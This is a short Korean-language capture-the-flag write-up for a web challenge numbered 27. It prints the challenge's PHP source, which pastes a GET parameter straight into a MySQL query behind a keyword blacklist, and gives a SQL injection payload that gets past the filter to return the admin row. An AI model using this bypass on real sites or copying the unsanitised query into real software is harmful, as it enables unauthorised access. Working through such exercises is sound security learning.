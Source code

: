 # 27

## 문제

```php
<html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?
if($_GET[no])
{

if(eregi("#|union|from|challenge|select|\(|\t|/|limit|=|0x",$_GET[no])) exit("no hack");

$q=@mysql_fetch_array(mysql_query("select id from challenge27_table where id='guest' and no=($_GET[no])")) or die("query error");

if($q[id]=="guest") echo("guest");
if($q[id]=="admin") @solve();

}

?>
<!-- index.phps -->
</body>
</html>
```

`admin`이 되면 될듯 하다.

## 풀이

```sql
1) or 2>1 order by id asc -- 
```

레코드 다 가져와서 `ID`로 오름차순 정렬하면 맨 처음 레코드가 `admin`인 가보다.